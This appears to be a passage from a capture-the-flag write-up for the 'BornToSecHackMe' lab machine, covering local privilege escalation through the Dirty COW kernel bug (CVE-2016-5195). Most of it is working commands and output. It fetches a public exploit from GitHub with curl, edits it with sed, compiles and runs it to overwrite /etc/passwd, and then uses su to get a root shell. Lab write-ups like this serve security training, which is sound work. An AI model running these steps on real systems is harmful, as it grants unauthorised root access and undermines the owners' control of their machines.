 All previous steps are identical to those in solution 1, so we will start this solution from step 7.

## 7. Exploring the Target

After gaining initial access to the system, we check the system information using the `uname` command to learn more about the target environment.

```bash
www-data@BornToSecHackMe:~$ uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```

The output reveals that the system is running on a 32-bit version of Ubuntu with kernel version `3.2.0-91`. A quick Google search shows that this kernel version is vulnerable to a well-known **Local Privilege Escalation** exploit known as **[CVE-2016-5195](https://nvd.nist.gov/vuln/detail/cve-2016-5195)** (Dirty COW). This vulnerability affects Linux kernel versions from `2.x` to `4.x` before `4.8.3` and allows an unprivileged user to gain root privileges by exploiting a race condition.

## 8. Exploiting Dirty COW

To exploit this vulnerability, we will use an existing exploit written in C, which we can download and modify to escalate privileges.

```bash
www-data@BornToSecHackMe:~$ curl -O https://raw.githubusercontent.com/firefart/dirtycow/refs/heads/master/dirty.c
```

We downloaded the Dirty COW exploit from GitHub. Since the code references the username "firefart," we will replace all instances of "firefart" with "root" to modify the root account.

```bash
www-data@BornToSecHackMe:~$ sed -i 's/firefart/root/g' dirty.c
```

Next, we compile the C code using `gcc`:

```bash
www-data@BornToSecHackMe:~$ gcc -pthread dirty.c -o dirty -lcrypt
```

We then run the exploit with a password of our choice (in this case, `"password"`):

```bash
www-data@BornToSecHackMe:~$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: password
Complete line:
root:rox7Jdqy.byUU:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'root' and the password 'password'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

The exploit successfully modifies the `/etc/passwd` file, adding a new root user with the password `"password"`. Now we can switch to the root user:

```bash
www-data@BornToSecHackMe:~$ su -
Password:
root@BornToSecHackMe:~#
```